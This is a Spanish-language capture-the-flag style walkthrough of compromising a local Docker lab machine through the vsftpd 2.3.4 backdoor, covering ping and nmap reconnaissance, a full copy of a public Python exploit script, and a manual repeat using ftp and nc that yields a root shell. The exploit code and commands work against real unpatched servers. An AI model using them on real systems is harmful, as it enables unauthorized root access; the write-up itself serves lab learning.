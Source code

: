 ## LEVANTAMOS EL DOCKER 

Una vez levantado el docker nos dice que la ip de la máquina victima es :
```bash
172.17.0.2
```
comprobamos si tenemos trazabilidad con la misma lanzando un ping

```bash
 ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.034 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.034/0.034/0.034/0.000 ms
```

Nos dice que se ha transmitido un paquete, recibido uno y perdido cero, tenemos trazabilidad

## FASE DE RECONOCIMIENTO
 Con nmap vamos a ver los puertos que tiene abiertos, los servicios que corren en los mismos y la versión para ver si hay alguna vulnerabilidad

 ```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Vemos un puerto 21 que corre ftp con su versión "vsftpd 2.3.4", al ver que se ha lanzado el script ftp-anom y
su respuesta  got code 500 "OOPS: cannot change directory:/var/ftp" me hace sospechar que esta versión puede ser vulnerable.


## FASE INTRUSIÓN

Hago una busqueda rápida y encuentro este exploit para esa version:
```bash
https://github.com/Hellsender01/vsftpd_2.3.4_Exploit/blob/main/exploit.py
```
```bash
#!/usr/bin/python3

from pwn import *
from sys import exit
from time import sleep

class ExploitFTP:
	def __init__(self,ip,port=21):
		self.ip = ip
		self.port = port
		self.p = log.progress("")

	def trigger_backdoor(self):
		self.p.status("Checking Version...")
		io = remote(self.ip,self.port)
		io.recvuntil(b"vsFTPd ")
		version = (io.recvuntil(b")")[:-1]).decode()
		if version != "2.3.4":
			self.p.failure("Version 2.3.4 Not Found!!!")
			exit()
		else:
			self.p.status("Triggering Backdoor....")
			io.sendline(b"USER hello:)")
			io.sendline(b"PASS hello123")
			io.close()

	def get_shell(self):
		self.p.status("Connecting To Backdoor...")
		sleep(1)
		io = remote(self.ip, 6200)
		self.p.success("Got Shell!!!")
		io.interactive()
		io.close()

if __name__ == "__main__":
	if len(sys.argv) < 2 or len(sys.argv) > 3:
		error(f"Usage: {sys.argv[0]} IP PORT(optional)")

	if len(sys.argv) == 3:
		exploit = ExploitFTP(sys.argv[1],sys.argv[2])
	else:
		exploit = ExploitFTP(sys.argv[1])

	exploit.trigger_backdoor()
	exploit.get_shell()
```

vamos a explicar un poco lo que hace

En esta parte:
```
else:
    self.p.status("Triggering Backdoor....")
    io.sendline(b"USER hello:)")
    io.sendline(b"PASS hello123")
    io.close()
```

Envia un usuario malicioso: "hello:)" y un pass: "hello123" y en teoría abre un backdoor

y en esta parte:

```
def get_shell(self):
    self.p.status("Connecting To Backdoor...")
    sleep(1)
    io = remote(self.ip, 6200)  # Se conecta al puerto 6200
    self.p.success("Got Shell!!!")
    io.interactive()
    io.close()
```
 Se conecta al puerto 6200 que es dónde ha abierto la backdoor, vamos a hacerlo de forma manual

 nos conectamos por ftp:
 ```bash
ftp 172.17.0.2
```
introducimos el user:
```bash
hello:)
```
y luego el pass
```bash
hola123
```
En teoria nos ha tenido que abrir la backdoor en el puerto 6200 y nos vamos a intentar conectar con nc
```bash
 nc 172.17.0.2 6200
```
 probamos si la conexión tiene exito:
 ```bash
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
y estamos dentro como root una máquina sencilla que nos recuerda que hay que mirar siempre las vulnerabilidades de las versions




